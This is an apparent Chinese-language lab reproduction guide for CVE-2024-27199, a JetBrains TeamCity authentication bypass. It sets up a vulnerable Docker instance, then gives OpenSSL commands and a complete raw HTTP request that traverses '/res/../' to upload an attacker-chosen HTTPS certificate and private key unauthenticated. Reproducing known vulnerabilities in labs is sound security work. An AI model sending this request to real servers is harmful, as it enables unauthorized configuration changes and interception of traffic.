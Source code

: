 # CVE-2024-27199 JetBrains TeamCity 身份验证绕过漏洞

 TeamCity Web 服务器中发现了第二个身份验证绕过漏洞。这种身份验证旁路允许在没有身份验证的情况下访问有限数量的经过身份验证的端点。未经身份验证的攻击者可以利用此漏洞修改服务器上有限数量的系统设置，并泄露服务器上有限数量的敏感信息。

项目官网下载地址https://www.jetbrains.com/teamcity/download/other.html

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2024-27199
- https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/

## 漏洞环境

执行如下命令启动一个teamcity-server:2023.11.3服务：

```
docker compose up 
```

服务启动后，可访问`http://your-ip:8111/`将自动跳转到teamcity安装向导界面

略....

## 漏洞复现

1，服务信息泄露

![image-20240311153555850](./1.png)

2.HTTPS 证书上传

使用 OpenSSL 生成和处理 ECDSA 密钥对和证书

```shell
openssl ecparam -name prime256v1 -genkey -noout -out private-eckey.pem
openssl ec -in private-eckey.pem -pubout -out public-key.pem
openssl req -new -x509 -key private-eckey.pem -out cert.pem -days 360
openssl pkcs8 -topk8 -nocrypt -in private-eckey.pem -out hax.key
```

运行上面的命令生成如下文件

![image-20240311155857019](./2.png)

构造如下包，上传HTTPS 证书并设定8443端口

```
POST /res/../app/https/settings/uploadCertificate HTTP/1.1
Host: 192.168.116.128:8111
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary4d5hF7eNFFbgJoAC
Content-Length: 1576

------WebKitFormBoundary4d5hF7eNFFbgJoAC
Content-Disposition: form-data; name="certificate"; filename="cert.pem"
Content-Type: application/octet-stream

-----BEGIN CERTIFICATE-----
MIICYjCCAgegAwIBAgIUFHRabDe2dTOHNe8at5fDfsigDJwwCgYIKoZIzj0EAwIw
gYUxCzAJBgNVBAYTAmNuMQswCQYDVQQIDAJobjENMAsGA1UEBwwEbmFtZTEQMA4G
A1UECgwHY29tcGFueTESMBAGA1UECwwJdW5pdCBuYW1lMRQwEgYDVQQDDAtjb21t
b24tbmFtZTEeMBwGCSqGSIb3DQEJARYPYWRtaW5AYWRtaW4uY29tMB4XDTI0MDMx
MTA3NTQwN1oXDTI1MDMwNjA3NTQwN1owgYUxCzAJBgNVBAYTAmNuMQswCQYDVQQI
DAJobjENMAsGA1UEBwwEbmFtZTEQMA4GA1UECgwHY29tcGFueTESMBAGA1UECwwJ
dW5pdCBuYW1lMRQwEgYDVQQDDAtjb21tb24tbmFtZTEeMBwGCSqGSIb3DQEJARYP
YWRtaW5AYWRtaW4uY29tMFkwEwYHKoZIzj0CAQYIKoZIzj0DAQcDQgAEMJ6RI0Xj
dm72v2AjYl0SGBPAC/TqXHbdSyJSzqDmsH1Du/M8vlBkO1QYnNbcuiqnvEHnfea4
WlDf5a1XnSQBB6NTMFEwHQYDVR0OBBYEFIP5qYGpT7CujDvYGCNtsCiycOmdMB8G
A1UdIwQYMBaAFIP5qYGpT7CujDvYGCNtsCiycOmdMA8GA1UdEwEB/wQFMAMBAf8w
CgYIKoZIzj0EAwIDSQAwRgIhAMcfVmbn711/5hOhnryKro9XH5m77DK/vmBvR0mk
SIYVAiEApXhoDMQiv/0NVbZrOyW+c6oMSlg3CuKtAj6Sd5hxWR0=
-----END CERTIFICATE-----

------WebKitFormBoundary4d5hF7eNFFbgJoAC
Content-Disposition: form-data; name="key"; filename="hax.key"
Content-Type: application/octet-stream

-----BEGIN PRIVATE KEY-----
MIGHAgEAMBMGByqGSM49AgEGCCqGSM49AwEHBG0wawIBAQQgflqLec/N8uvpqGUK
Z7sGvs81dBDffRUw+ufigYq016ChRANCAAQwnpEjReN2bva/YCNiXRIYE8AL9Opc
dt1LIlLOoOawfUO78zy+UGQ7VBic1ty6Kqe8Qed95rhaUN/lrVedJAEH
-----END PRIVATE KEY-----

------WebKitFormBoundary4d5hF7eNFFbgJoAC
Content-Disposition: form-data; name="port"

8443
------WebKitFormBoundary4d5hF7eNFFbgJoAC--

```

![image-20240311161603819](./3.png)

后台验证下证书是否上传

![image-20240311161736742](./4.png)

或者直接访问https\://192.168.116.128:8443/

![image-20240311161839643](./5.png)

